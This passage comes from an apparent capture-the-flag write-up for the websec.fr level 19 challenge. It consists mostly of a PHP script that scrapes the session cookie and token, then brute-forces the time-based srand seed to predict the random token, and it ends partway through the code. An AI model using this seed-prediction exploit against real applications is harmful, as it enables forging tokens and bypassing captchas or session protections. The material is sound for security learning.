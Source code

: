 Now, we'll generate the captcha and send it. 
```php
<?php

function generate_random_text($length) {
    $chars  = "abcdefghijklmnopqrstuvwxyz";
    $chars .= "ABCDEFGHIJKLMNOPQRSTUVWXYZ";
    $chars .= "1234567890";

    $text = '';
    for ($i = 0; $i < $length; $i++) {
        $text .= $chars[rand() % strlen($chars)];
    }
    return $text;
}

// --- Step 1: GET request to fetch token and PHPSESSID ---
$opts = [
    "http" => [
        "method" => "GET",
        "header" => "User-Agent: PHP\r\n"
    ]
];
$context = stream_context_create($opts);
$response = file_get_contents("https://websec.fr/level19/index.php", false, $context);

// Extract PHPSESSID from response headers
$php_sessid = null;
foreach ($http_response_header as $hdr) {
    if (preg_match('/^Set-Cookie:\s*PHPSESSID=([^;]+)/', $hdr, $matches)) {
        $php_sessid = $matches[1];
        break;
    }
}

if (!$php_sessid) {
    die("[-] Could not retrieve PHPSESSID\n");
}

// Extract token
if (!preg_match('/name="token" value="([^"]+)"/', $response, $matches)) {
    die("[-] Could not find token\n");
}
$captured_token = $matches[1];

echo "[+] Captured token: $captured_token\n";
echo "[+] Captured PHPSESSID: $php_sessid\n";

// --- Step 2: Find seed ---
$now = microtime(true);
$found = false;

for ($seed = $now - 30; $seed <= $now + 30; $seed++) {
    srand($seed);
    $token = generate_random_text(32);
    if ($token === $captured_token) {
        echo "[+] Found seed: $seed (" . date("r", $seed) . ")\n";
        $found = true;
        break;
    }
}

if (!$found) {
    die("[-] Seed not found in the window.\n");
```